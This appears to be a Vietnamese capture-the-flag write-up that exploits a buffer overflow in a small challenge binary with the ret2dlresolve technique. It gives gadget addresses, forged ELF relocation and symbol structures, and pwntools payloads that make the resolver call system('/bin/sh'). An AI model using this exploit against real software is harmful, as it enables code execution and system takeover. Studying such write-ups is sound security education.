

- Đây là một `challenge` code khá đơn giản khi mà nó chỉ có mỗi hàm `read` để ghi dữ liệu vào `buf` tại hàm `vuln`

- 

- 

- nhìn thì ta thấy ngay `overflow`, tùy nhiên với từng này ta không thể làm được gì

- 

- Sau khi kiểm tra bằng `vmmap` ta có thể thấy rằng phân vùng `binary` ghi được có đoạn địa chỉ bắt đầu từ `0x4` do đó ta có thể sử dụng kỹ thuật `ret2dlresolve`.

- Ta sẽ giả mạo `reloc_arg`, `STRTAB`, `SYMTAB` và `JMPREL` để `dlresolve` thực thi `system('/bin/sh')`

- Đầu tiên ta sẽ kiếm giá trị base của 3 struct `STRTAB`, `SYMTAB`, `JMPREL` và các `gadget` cần thiết

- ```python
  dlresol = 0x401020
  pop_rsi = 0x4011b9
  addr    = 0x404e00
  lret    = 0x401141
  pop_rdi = 0x4011bb
  pop_rbp = 0x401109
  
  STRTAB  = 0x400390
  SYMTAB  = 0x400330
  JMPREL  = 0x400430
  ```

- Tạo các fake `STRTAB`, `SYMTAB`, `JMPREL`

- ```python
  new_STRTAB  = addr + 0x98
  new_SYMTAB  = addr + 0x50
  new_JMPREL  = addr + 0x78
  
  symbol_num  = int((new_SYMTAB - SYMTAB)/0x18)
  reloc_arg   = int((new_JMPREL - JMPREL)/0x18)
  
  st_name = new_STRTAB - STRTAB
  st_info = 0x12
  st_oth  = 0
  st_ndx  = 0
  st_val  = 0
  st_size = 0
  
  SYMTAB_struct = p32(st_name) \
      + p8(st_info) \
      + p8(st_oth) \
      + p16(st_ndx) \
      + p64(st_val) \
      + p64(st_size)
      
  r_info   = (symbol_num << 32) | 7
  r_addend = 0
  r_offset = exe.got['read'] + 0x20
  JMPREL_struct = flat(r_offset, r_info, r_addend)
  ```

 - sau khi fake ta sẽ nạp chúng vào địa chỉ trên thông qua hàm `read`, đồng thời setup cho việc gọi `dlresolve`

 - ```python
   payload = b'a'*0x40
   payload += flat(
       addr,
       pop_rsi, addr + 0x48, 0,
       exe.sym['read'],
       pop_rdi, addr + 0xa0,
       dlresol, reloc_arg,
   ).ljust(0xc8-0x40, b'a')
   
   s(payload)
   ```

 - gửi các `fake struct`

 - ```python
   payload = flat(
       SYMTAB_struct,
       0, 0,
       JMPREL_struct,
       0, 0,
       b'system\x00\x00',
       b'/bin/sh\x00'
   )
   
   s(payload)
   ```

 - `JMPREL fake`

 - 

 - `SYMTAB fake`

 - 

 - `STRTAB fake`

 - 

 - trước khi thưc hiện `dlresolve` ta sẽ `pop rdi` tương ứng là`/bin/sh`

 - 